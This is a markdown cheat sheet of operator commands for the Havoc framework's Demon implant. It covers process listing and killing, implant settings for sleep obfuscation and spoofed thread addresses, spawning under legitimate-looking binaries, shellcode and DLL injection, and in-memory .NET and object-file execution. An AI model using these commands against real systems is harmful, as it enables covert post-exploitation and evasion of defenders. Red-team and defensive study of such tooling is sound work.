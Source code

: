 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - defense-evasion
  - process-injection
  - havoc
  - windows
---
```

# Havoc

## 01 - Help Menu

```
Demon » help proc

 - Command       :  proc
 - Description   :  process enumeration and management
 - Usage         :  proc [command]
 - Example       :  proc list

  Command                        Description
  ---------                      -------------
  list                           displays a list of running processes on the target
  kill                           kills the process from specified PID
  blockdll                       block non microsoft signed dlls
  create                         create a process
  modules                        lists loaded modules/dlls from a remote process
  grep                           grep information from the specified remote process
  memory                         query for memory regions
  find-module                    query for processes with specified loaded module
```

## 02 - Create Process

```
Demon » proc create notepad.exe

Demon » proc create taskmgr.exe
```

## 03 - Terminate Process

```
Demon » proc kill <pid>
```

## 04 - Reconfigure Interactive Implant

### 4.1 - Help Menu

```
Demon » help config

 - Command       :  config
 - Description   :  configure the behaviour of the demon session
 - Usage         :  config [config.flag]
 - Example       :  config inject.spawn64 C:\Windows\System32\rundll32.exe

  Command                        Description
  ---------                      -------------
  implant.verbose                enable/disable implant verbose logging (process creation, memory allocation, thread execution etc.)
  implant.sleep-obf.start-addr   set custom thread start addr at sleep obfuscation
  implant.sleep-obf.technique    set custom thread start addr at sleep obfuscation
  implant.coffee.veh             enable/disable VEH for object file loading
  implant.coffee.threaded        enable/disable threading while executing object files
  memory.alloc                   memory allocation behaviour
  memory.execute                 memory executing behaviour (remote/local thread)
  inject.spoofaddr               inject code with spoofed thread start addr
  inject.spawn64                 default x64 process to spawn for fork & run operations
  inject.spawn32                 default x86 process to spawn for fork & run operations
```

### 4.2 - Configure Spawn Process

Configure a path to spawn new process when executing commands through the demon agent. This will effect other commands like `shellcode` and `dll` to spawn a specific process.

```
Demon » config inject.spawn64 C:\Windows\System32\gpupdate.exe

Demon » config inject.spawn32 C:\Program Files (x86)\Common Files\Java\Java Update\jucheck.exe
```

## 05 - Inject Process

### 5.1 - Shellcode

Inject shellcode through a process identifier.

```
Demon » shellcode inject <x64 | x86> <pid> /path/to/shellcode.bin
```

Inject shellcode to spawn a new implant.

```
Demon » shellcode spawn <x64 | x86> /path/to/shellcode.bin
```

### 5.2 - Spawn DLL

Inject DLL file through a process identifier.

```
Demon » dll inject <pid> /path/to/local/file.dll [arguments]
```

Inject DLL file to spawn a new implant.

```
Demon » dll spawn /path/to/local/file.dll [arguments]
```

### 5.3 - DotNET CLR Assembly

Execute .NET files through memory in the current process.

```
Demon » dotnet inline-execute /path/to/local/dotnet_file.exe [arguments]
```

## 06 - Object File

Execute object file through memory in the current process.

```
Demon » inline-execute /path/to/objectfile.o [arguments]
```